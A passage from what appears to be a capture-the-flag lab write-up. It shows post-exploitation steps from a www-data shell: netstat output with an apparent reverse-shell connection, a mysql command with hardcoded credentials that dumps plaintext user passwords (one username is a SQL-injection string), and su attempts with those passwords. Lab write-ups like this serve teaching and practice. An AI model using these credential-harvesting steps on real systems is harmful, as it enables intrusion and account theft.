

And like wise now I don't get any false positives anymore and I can see that "\_fragment" folder as well! But I am also able to obtain the first flag!

****

# Moving around

Now I noticed a strange file laying around i Elon´s home folder:



Now checking from the main class file I can see the default credentials over the internal port 1099:  


But seems like I don't see any internal port?

```bash
www-data@blog:/home/elonmusk$ netstat -ano
netstat -ano
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        1      0 172.22.1.97:80          10.10.14.164:59858      CLOSE_WAIT  keepalive (4570.15/0/0)
tcp        0    156 172.22.1.97:39316       10.10.14.164:4444       ESTABLISHED on (0.23/0/0)
tcp6       0      0 172.22.1.97:46946       172.22.1.250:1099       TIME_WAIT   timewait (15.87/0/0)
tcp6       0      0 172.22.1.97:36266       172.22.1.250:1337       TIME_WAIT   timewait (15.87/0/0)
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   Path
unix  4      [ ]         DGRAM                    22089    /run/systemd/journal/dev-log
unix  3      [ ]         DGRAM                    21930    /run/systemd/notify
unix  2      [ ACC ]     STREAM     LISTENING     21934    /run/systemd/private
unix  2      [ ]         DGRAM                    21944    /run/systemd/journal/syslog
unix  2      [ ACC ]     STREAM     LISTENING     21953    /run/systemd/journal/stdout
unix  3      [ ]         DGRAM                    21956    /run/systemd/journal/socket
unix  2      [ ACC ]     STREAM     LISTENING     29429    /run/mysqld/mysqld.sock
unix  2      [ ]         DGRAM                    22277    
unix  3      [ ]         STREAM     CONNECTED     24978    /run/systemd/journal/stdout
unix  3      [ ]         DGRAM                    21933    
unix  3      [ ]         STREAM     CONNECTED     24977    
unix  3      [ ]         DGRAM                    21932    
unix  2      [ ]         DGRAM                    22300    
unix  2      [ ]         DGRAM                    24999    
unix  2      [ ]         DGRAM                    34985    
www-data@blog:/home/elonmusk$ 


```

In the meantime I executed a quick scan via Linpeas without unveling much more here unfortunately.. I will also check what can I obtain from that DB since I have the credentials so far.

```sql
www-data@blog:/var/www/blog_dev/public$ mysql -u plop -pplop_password_ofc -e "SELECT * FROM users;" appli_dev
<op_password_ofc -e "SELECT * FROM users;" appli_dev
+----+----------+---------------+--------------+
| id | username | password      | ip           |
+----+----------+---------------+--------------+
|  2 | elonmusk | Sp@c3Xftw!!!! | 127.0.0.1    |
|  4 | eLonmusk | test          | 10.13.14.4   |
|  5 | eLonmusk | test          | 10.13.14.4   |
|  6 | eLonmusk | test          | 10.13.14.4   |
|  7 | asdasd   | asdasd        | 10.10.14.156 |
|  8 | asdasd   | asdasd        | 10.10.14.156 |
|  9 | asdasd   | asdasd        | 10.10.14.156 |
| 10 | asdasd   | asdasd        | 10.10.14.156 |
| 11 | admin    | admin         | 10.10.14.156 |
| 12 | ElonMusk | asdasd        | 10.10.14.156 |
| 13 | john     | john          | 10.10.14.162 |
| 14 | tester   | abc123        | 10.10.14.150 |
| 15 | admin    | abc123        | 10.10.14.150 |
| 16 | yovecio  | Coglione1!    | 10.10.14.164 |
| 17 | Elonmusk | Coglione1!    | 10.10.14.164 |
| 18 | ElonMusk | Coglione1!    | 10.10.14.164 |
+----+----------+---------------+--------------+
www-data@blog:/var/www/blog_dev/public$ 

```

Nice but let's see if it is same as the PROD ones.

```sql
www-data@blog:/var/www/blog/public$ mysql -u plop -pplop_password_ofc -e "SELECT * FROM users;" appli
<-pplop_password_ofc -e "SELECT * FROM users;" appli
+----+-------------+---------------------+--------------+
| id | username    | password            | ip           |
+----+-------------+---------------------+--------------+
|  1 | elonmusk    | m0reT3sl@1nTheCl0ud | 127.0.0.1    |
|  2 | eLonmus     | test                | 10.13.14.4   |
|  3 | eLonmusk    | test                | 10.13.14.4   |
|  4 | eLonmusk    | test                | 10.13.14.4   |
|  5 | asdasd      | asdasd              | 10.10.14.156 |
|  6 | asdasd      | asdasd              | 10.10.14.156 |
|  7 | admin%00    | admin               | 10.10.14.156 |
|  8 | john        | john                | 10.10.14.162 |
|  9 | ' OR 1=1 -- | asd                 | 10.10.14.162 |
| 10 | admin       | admin               | 10.10.14.162 |
| 11 | tester      | abc123              | 10.10.14.150 |
| 12 | yovecio     | Coglione1!          | 10.10.14.164 |
| 13 | ElonMusk    | Coglione1!          | 10.10.14.164 |
+----+-------------+---------------------+--------------+
www-data@blog:/var/www/blog/public$ 

```

Ok so we have actually 2 creds for elonmusk but apparently, none of them works? Damn it!

```bash
www-data@blog:/var/www/blog/public$ su - elonmusk
su - elonmusk
Password: Sp@c3Xftw!!!!

su: Authentication failure
www-data@blog:/var/www/blog/public$ su - elonmusk
su - elonmusk
Password: m0reT3sl@1nTheCl0ud

su: Authentication failure
www-data@blog:/var/www/blog/public$ 

```

Now since the next flag has DC in the name I guess it is time to move on isn't it?

&nbsp;